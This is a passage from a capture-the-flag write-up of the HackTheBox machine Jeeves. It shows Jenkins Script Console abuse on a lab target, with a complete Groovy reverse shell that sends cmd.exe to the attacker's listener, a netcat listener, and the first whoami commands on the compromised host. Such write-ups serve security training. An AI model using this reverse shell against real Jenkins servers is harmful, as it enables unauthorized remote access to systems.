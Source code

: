 I can remember a machine called [Butler](https://emvee-nl.github.io/posts/TCM-Writeup-Butler/) from TCM with Jenkins. This machine could run scripts from a Script Console. Let's find out if we can access it here as well.

![Image](/assets/img/WriteUp//HTB/Jeeves/Pasted image 20231122211540.png){: width="700" height="400" }

We can access the Script Console. This means we can try to create a reverse shell. The code below is the code to start a reverse shell to our machine, this should be copied and paste in the Script console of Jenkins.
```
String host="10.10.14.103";
int port=4321;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();


```
Before we start the reverse shell we should start a netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Jeeves]
└─$ rlwrap nc -lvnp 4321
listening on [any] 4321 ...

```
Now we can paste the code and hit the Run button.
![Image](/assets/img/WriteUp//HTB/Jeeves/Pasted image 20231122212028.png){: width="700" height="400" }


## Initial access
When we check the netcat listener, we can see that a connection has been established.

```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Jeeves]
└─$ rlwrap nc -lvnp 4321
listening on [any] 4321 ...
connect to [10.10.14.103] from (UNKNOWN) [10.129.228.112] 49676
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>

```
First let's find out who we are on the machine.
```
┌──(emvee㉿kali)-[~/Documents/HTB/Jeeves]
└─$ rlwrap nc -lvnp 4321
listening on [any] 4321 ...
connect to [10.10.14.103] from (UNKNOWN) [10.129.228.112] 49676
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>whoami
whoami
jeeves\kohsuke
```
Now we should check the privileges we have.
```
C:\Users\Administrator\.jenkins>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
```